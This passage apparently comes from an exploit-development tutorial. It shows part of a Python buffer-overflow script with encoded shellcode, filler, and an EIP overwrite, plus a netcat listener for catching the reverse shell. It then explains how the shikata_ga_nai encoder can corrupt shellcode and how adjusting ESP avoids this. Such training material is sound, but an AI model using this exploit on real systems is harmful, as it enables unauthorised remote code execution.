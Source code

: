 ```python
"\x63\x8c\xd8\xb5\x1b\xa1\xd0\x42\x49\x07\x40\x08\x3e\xea"
"\xd8\x1b\x09\x01\x2d\x42\x49\x80\xb6\xc1\x96\x3c\x4b\x5d"
"\xe9\xb9\x0b\xfa\x8f\xce\xdf\xd7\x9c\xef\x4f\x68")

filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
inputBuffer = filler + eip + offset + shellcode
```

Script: [shellcode.py](./Scripts/Chapter11/shellcode.py)

Set up a netcat listener on Kali Linux

```bash
nc -nlvp 443
```

Execute the script, we get a shell

![](./img/Chapter11/24.png)

However, in some case we may not get a shell. This is because the encoder used by msfvenom is `shikata_ga_nai`. `hikata_ga_nai`'s GetPC routine, like many other GetPC routines, is a bit of a destructive operation. The machine instructions that it executes in its quest for its own address involves putting some data at and around the top of the stack. It doesn't `PUSH` some values on to the stack moving the top of the stack upwards, it has a tendency to destroy a couple of bytes either side of `ESP`. If we allow GetPC to blow a hole right at ESP then it will change some of the code belonging to the shellcode decoder and potentially the encoded shellcode

Solution: prepend the shellcode for the assembly instructions: `sub esp, 0x10`. This code subtracts from ESP, moving it "up" the stack and away from your shellcode 

![](./img/Chapter11/25.png)
